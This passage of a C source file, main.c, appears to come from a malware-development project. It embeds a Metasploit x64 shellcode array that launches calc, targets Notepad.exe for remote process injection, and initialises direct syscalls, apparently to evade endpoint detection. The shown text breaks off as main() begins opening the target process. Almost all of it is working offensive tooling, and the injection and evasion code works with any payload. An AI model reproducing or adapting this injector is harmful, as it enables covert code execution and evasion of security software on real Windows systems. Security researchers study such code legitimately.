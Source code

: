 **main.c**

```c
#include <Windows.h>
#include <stdio.h>


#include "Structs.h"
#include "Common.h"


// comment to inject to the local process
//
#define TARGET_PROCESS	L"Notepad.exe"


// x64 calc metasploit
unsigned char Payload [] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};



int main() {
	
	DWORD		dwProcessId		= NULL;
	HANDLE		hProcess		= NULL;


	if (!InitializeSyscalls()) {
		printf("[!] Failed To Initialize Syscalls Structure \n");
		return -1;
	}


#ifdef TARGET_PROCESS

	wprintf(L"[i] Targetting Remote Process %s ... \n", TARGET_PROCESS);
	if (!GetRemoteProcessHandle(TARGET_PROCESS, &dwProcessId, &hProcess)) {
		printf("[!] Could Not Find Target Process Id \n");
		return -1;
	}
```
